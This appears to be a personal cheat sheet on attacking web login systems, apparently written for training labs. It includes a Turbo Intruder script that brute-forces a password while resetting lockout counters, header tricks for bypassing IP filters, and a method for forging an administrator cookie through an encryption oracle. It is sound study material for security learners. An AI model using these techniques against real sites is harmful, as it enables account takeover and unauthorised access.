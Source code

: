 [#](#) Authentication

Bypass IP Filtering:

    X-Forwarded-For: foo
    
    Reset lock counts upon successful?

    ```
    def queueRequests(target, wordlists):
        engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=1,
                           pipeline=False
                           )

        for word in open('C:\Users\srbx7\Desktop\lists\password.txt'):
            engine.queue(target.req, ["wiener","peter"])
            engine.queue(target.req, ["carlos",word.rstrip()])


    def handleResponse(req, interesting):
        # currently available attributes are req.status, req.wordcount, req.length and req.response
        if req.status == 302:
            table.add(req)
    ```
Time based enumeration (add long password ;) )

Can't bypass IP Filtering?

    Is there an admin interface /admin
    
       Host: localhost
       
       TRACE /admin # And find Custom header
       X-Custom-Ip-Authorization: 127.0.0.1
       
    Fuzz no matter what, and grep negative for error?

Change Password:

    - POST Change Username?
    - POST username=wiener&current=peter&new_1=AAAA&new_2=BBBB
        - > New Passwords do not match > Bruteforce

Drop request:

    - Is there a unusual request that you can simply drop (instead of changing params) to not receive the new state (set-cookie)
        - POST /login -> GET /role-selector (DROP)

Stay-logged-in: 

    - Can you decode the cookie
    - Can you decrypt the cookie:
        - Encryption Oracle -> POST /foo -> Set-Cookie: Notification=ENCRYPTED -> <html><header>My Super Notification: controlled_user_data</header><body>...
            - Can you put the stay-logged-in cookie instead of controlled_user_data
            - Create Encrypt / Decrypt Tabs
            - Need to remove prefix
            - Encrypted Data -> Decoder -> URL Decode -> Base64 -> Delete Bytes len("prefix")
            - 16-bytes blocks error? -> how much to add so that we can safely remove the first block? -> 
            ```
            # When sending to encrypt, the backend add "prefix" and then encrypt....
            ## prefixXXXXXXXXXX
            block_1 = "X" * (16 - len("prefix")) # "prefix" will be automatically added
            block_2 = "administrator:timestamp"
            encrypt = block_1 + block_2```
            # Encrypt and then remove first 16-bytes (hex in decoder and encode back)
            print(encrypt)
